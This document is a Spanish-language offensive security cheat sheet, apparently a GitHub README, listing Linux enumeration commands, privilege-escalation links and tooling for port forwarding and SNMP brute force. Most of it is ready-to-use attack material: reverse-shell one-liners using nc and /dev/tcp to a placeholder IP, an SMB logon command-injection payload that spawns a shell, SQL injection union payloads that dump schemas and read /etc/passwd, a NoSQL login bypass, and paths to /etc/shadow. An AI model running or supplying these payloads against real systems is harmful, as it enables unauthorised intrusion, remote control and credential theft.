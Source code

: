# General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands

### FIND
* Listar los permisos SUID, debe estar en la carpeta raiz del SO: ``` find  \-perm -4000 2>/dev/null ```

### Sistema Operativo
* Conocer la IP de la máquina ``` hostname -I ```
* Permite ver los puertos abiertos de la máquina ``` netstat -nat ```
* Permite ver los procesos corriendo en la máquina ``` ps -faux ```
* Permite ver los archivos que tienen procesos abiertos ``` lsof -i:<PORT> ```
* Permite ver la descripción del sistema operativo ``` lsb_release -a ```
* Permite ver la versión del kernel ``` uname -a ```
* Permite ajustar el número de filas y columnas de la tty ``` stty rows <ROW_NUMBER> columns <COLUMN_NUMBER> ```
* Permite convertir hexadecimal a texto ```echo "<HEX>" | xargs | xxd -ps -r ```
* Buscar las capabilities ``` getcap -r / 2>/dev/null ```
* Ver procesos corriendo (Para este caso se filtra y se muestra los procesos de root) ``` ps aux | grep root ```

### Full TTY
Te permite tener una consola interactiva
* [Full TTYs](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

### Python
* Crear un servidor de python en mi máquina local ``` python3 -m http.server <PORT> ```

### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**: ```nc -lnvp <PORT>```

Y luego usar alguno de los siguientes comandos

> nc -e /bin/bash <IP> <PORT>

> bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

> bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" ```

#### SMB
Dentro de una consola de smb, usando por ejemplo smbclient
> logon "./=\`nohup nc -e /bin/bash \<IP> \<PORT>`"


## Privilege Escalation

### Docker Escape
* [Docker Socket Escape](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounted-docker-socket-escape)

### Pkexec
Se comprueba si existe pkexec instalado y si tiene permisos SUID
> which pkexec | xargs ls -l

### Dirty Pipe
Se debe tener GCC instalado en la máquina a atacar
* [Dirty Pipe](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

### Ld_preload & Ld_library_path
En sudo -l debe aparecer ld_preload
* [Ld_preload](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)

### SetEnv
En sudo -l se debe poder ejecutar archivos
[Set an environment variable](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#setenv)


## Information Disclose
Archivos PHP con posible información sensible

### Linux
Usuarios y passwords
```
/etc/passwd
/etc/shadow
```
Puertos abiertos
```
/proc/net/tcp
```
Conocer segmento de red de la máquina
```
/proc/net/fib_trie
```

### PHP
```
/cgi-bin/phpinfo.php
/info.php
```


## SQL Injection

### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -

### Cargar archivos
> ' union select 1,2,load_file("/etc/passwd")


## NoSQL Injection
> admin'||''==='


## Tools

### Kubernetes
#### Kubeletctl
* ``` kubeletctl exec -s <SERVER_IP>  -p <POD_NAME> -c <CONTAINER_NAME> -i "bash" ```

### Chisel
Chisel se usa para realizar acciones como **LOCAL o REMOTE PORT-FORWARD**

Dejar abierta una conexión como Server
```
./chisel server --reverse -p <PORT>
```
Abrir una conexión como Client al Server, para este caso asiendo **Remote Port-Forward**
```
./chisel client <CHISEL_SERVER_IP>:<CHISEL_SERVER_PORT> R:<LOCAL_PORT>:<LOCAL_IP>:<LOCAL_PORT>
```

### SNMP
#### Onesixtyone
Onesixtyone permite hacer fuerza bruta para conocer las community en un servicio snmp
```
onesixtyone <REMOTE_IP> -c <DICTIONARY_PATH>
```
### Snmpwalk
```
snmpwalk -c <COMMUNITY> -v<SNMP_VERSION> <REMOTE_IP> <SEARCH_PATH>
```
Ejemplo, consideremos que el caracter **|** indica que podemos utilizar una de esas
```
snmpwalk -c public|private|etc -v1|2c|3 1.1.1.1 1|2
```